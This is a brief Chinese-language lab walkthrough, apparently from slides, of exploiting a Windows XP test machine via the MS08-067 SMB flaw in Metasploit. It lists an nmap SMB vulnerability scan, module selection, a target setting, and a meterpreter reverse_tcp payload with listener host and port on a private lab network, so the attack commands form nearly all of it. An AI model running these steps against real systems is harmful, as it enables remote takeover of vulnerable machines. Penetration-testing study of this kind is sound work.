

Xp测试
root@kali:~/桌面# nmap --script smb-vuln-* 192.168.149.143
search 08-067
Use 0
set rhosts 192.168.149.143
设置攻击载荷
设置对应攻击的的操作系统版本
set target 34
set payload windows/meterpreter/reverse_tcp
反弹建立回话
攻击成功之后返回一个攻击载荷 返回到meterpreter
msf5 exploit(windows/smb/ms08_067_netapi) > set lhost 192.168.149.142
msf5 exploit(windows/smb/ms08_067_netapi) > set lport 1122
见后面